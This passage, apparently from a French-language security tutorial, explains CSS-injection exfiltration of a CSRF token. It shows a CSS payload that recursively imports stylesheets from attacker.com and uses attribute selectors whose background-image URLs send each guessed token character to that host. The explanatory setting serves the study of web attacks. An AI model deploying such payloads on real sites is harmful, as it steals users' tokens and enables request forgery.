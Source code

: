 <figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

En théorie cela fonctionne, mais en pratique, plusieurs problématiques restent à régler avec que cela fonctionne.

#### Directive d'import bloquante

L'import de la première feuille de style va permettre de récupérer le caractère `n` de l'information à récupérer (grâce aux sélecteurs CSS) mais également d'importer la prochaine feuille de style (qui permettra la récupération le caractère `n+1` et ainsi de suite) :

{% code overflow="wrap" %}
```css
/* La page à importer sera générée une fois le premier caractère récupéré */
@import url("https://attacker.com/styles/recursive_style.css");

/* Les sélecteurs doivent être appliqués avant la récupération de l'import */
input[name=csrf-token][value^=a]~* {
  background-image:url(https://attacker.com/?leak=a);
}

input[name=csrf-token][value^=b]~* {
  background-image:url(https://attacker.com/?leak=b);
}
```
{% endcode %}
